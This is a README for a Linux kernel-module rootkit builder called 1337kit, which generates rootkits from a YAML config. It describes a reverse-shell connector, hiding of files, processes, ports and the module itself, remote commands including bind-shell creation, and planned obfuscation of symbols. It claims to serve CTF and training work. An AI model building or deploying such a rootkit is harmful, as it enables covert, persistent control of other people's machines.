

# 1337kit - LKM Rootkit Builder

```
 ████   ████████   ████████  ██████████ █████       ███   █████   
░░███  ███░░░░███ ███░░░░███░███░░░░███░░███       ░░░   ░░███    
 ░███ ░░░    ░███░░░    ░███░░░    ███  ░███ █████ ████  ███████  
 ░███    ██████░    ██████░       ███   ░███░░███ ░░███ ░░░███░   
 ░███   ░░░░░░███  ░░░░░░███     ███    ░██████░   ░███   ░███    
 ░███  ███   ░███ ███   ░███    ███     ░███░░███  ░███   ░███ ███
 █████░░████████ ░░████████    ███      ████ █████ █████  ░░█████ 
░░░░░  ░░░░░░░░   ░░░░░░░░    ░░░      ░░░░ ░░░░░ ░░░░░    ░░░░░  
LKM Rootkit Builder
```

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analytists and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

RevShell based connector
Hiding dents (files, files prefixes, process id)
Hiding ports in TCP Connection
Spawning scripts to user-space
Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector: 
    ip: "127.0.0.1"
    port: "8080"
hide_dent:
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --config testfiles/config.yml
```
And rootkit.ko will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* hiding connections based on IP
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples


